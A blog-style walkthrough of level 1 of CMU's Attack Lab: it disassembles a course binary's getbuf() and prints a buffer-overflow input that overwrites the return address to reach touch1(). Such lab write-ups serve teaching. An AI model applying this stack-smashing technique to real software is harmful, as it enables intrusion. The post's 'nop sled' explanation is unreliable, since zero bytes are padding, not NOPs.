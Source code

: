 ```yaml
---
layout: post
title: Walkthrough of CMU's Attack Lab
---
```

This post walks through CMU's 'Attack' lab, which involves exploiting the stack space of vulnerable binaries.

## Post Outline
- [Level 1](#level-1)
- [Resources](#resources)

We go over Level 1 in this post.

## Level 1
From the assignment handout, we are told that there is a function `test()` that calls `getbuf()`. 
We want `getbuf()` to call `touch1()` in this first phase.
Let's start by disassembling the function `getbuf()`.

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp // allocate 0x28 bytes for getbuf
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets> // call Gets() function to get input
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

If we think conceptually about what is going on during this call, `%rsp` is currently inside of the memory space allocated for `test()`.
At the end of the space allocated for `test()` is the return address that `%rsp` will return to after calling `getbuf()`.
When we call `getbuf()`, we allocate more space on the stack just below `test()`.
Here is a visualization:
![_config.yml]({{ site.baseurl }}/images/CMUAttackLab/p1.jpeg)

From the disassembled code, we note that 0x28 (40) bytes are allocated.
This means that we can create a nop sled of 40 bytes (each nop is 1 byte) and then include the address of `touch1()`.
When `getbuf()` is called, `%rsp` will slide down the nop sled, encounter the address of `touch1()` and execute `touch1()`.

By disassembling `touch1()`, we can see that it's address is: `00000000004017c0 <touch1>:`.

Therefore, our resulting exploited code is the following (`touch1()`'s address is reversed b/c the machine is little endian).
```
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
c0 17 40 00 00
```

## Resources
- [Assignment Handout](http://csapp.cs.cmu.edu/3e/attacklab.pdf)